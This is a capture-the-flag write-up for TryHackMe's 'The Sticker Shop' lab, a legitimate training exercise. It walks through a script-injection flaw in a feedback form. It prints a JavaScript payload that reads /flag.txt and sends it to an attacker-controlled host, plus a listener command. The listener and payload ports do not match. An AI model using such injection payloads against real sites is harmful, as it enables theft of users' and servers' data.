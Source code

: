# The Sticker Shop Writeup By Priyank Rastogi

## Introduction

This write-up describes the process of exploiting an HTML Injection vulnerability on a TryHackMe machine (The Sticker Shop) to retrieve sensitive data from the /flag.txt file. The challenge demonstrated the importance of securing web applications against injection vulnerabilities.

## Steps to Exploit

### Connecting to the Target Machine

- Launched the machine and noted the IP address assigned

- Navigated to the target application at http://machine-ip:8080/.

### Exploring the Application

- The homepage contained navigation buttons, including a link to a Feedback Page.
- Reviewed the source code of both the homepage and feedback page but found no significant clues or sensitive information.

### Identifying the Vulnerability

- While testing the feedback page, I noticed that it was vulnerable to HTML Injection.
- Injected custom HTML and JavaScript payloads to confirm that the application executed them, thereby verifying the vulnerability.

### Crafting the Exploit

Since direct access to /flag.txt was restricted due to insufficient privileges, I crafted a JavaScript payload to fetch the file's contents using the GET method and exfiltrate it to a server under my control.

```html
<script>
  fetch('/flag.txt', { method: 'GET' })
    .then(response => response.text())
    .then(data => {
      const img = new Image();
      img.src = `http://<my-machine-ip>:8081/?flag=${encodeURIComponent(data)}`;
      document.body.appendChild(img);
    })
    .catch(error => console.error('Error:', error));
</script>
```

### Setting Up the Listener

- Started a web server on my local machine to capture the exfiltrated flag data:

```bash
python3 -m http.server 80
```

- Injected the crafted payload into the feedback page's vulnerable input field.

### Retrieving the Flag

- The payload executed on the server, making a GET request to /flag.txt.
- The response containing the flag was sent to my machine and logged in the terminal running the HTTP server.

## Key Observations

- The application did not properly sanitize user input on the feedback page, allowing the injection of malicious scripts.
- While /flag.txt was not directly accessible, the HTML injection vulnerability allowed bypassing privilege restrictions via server-side fetch operations.

## Flag

- Use CyberChef to decode the FLAG 
- Use URL Decode.

---

Thank You! 
---

## Connect With Me

- [![GitHub](https://img.shields.io/badge/GitHub-000?logo=github&logoColor=white)](https://github.com/technical404)
- [![LinkedIn](https://img.shields.io/badge/LinkedIn-0A66C2?logo=linkedin&logoColor=white)](https://www.linkedin.com/in/thepriyankrastogi/)
- [![Blog](https://img.shields.io/badge/Blog-FF5722?logo=rss&logoColor=white)](https://hackerpriyank.blogspot.com/)

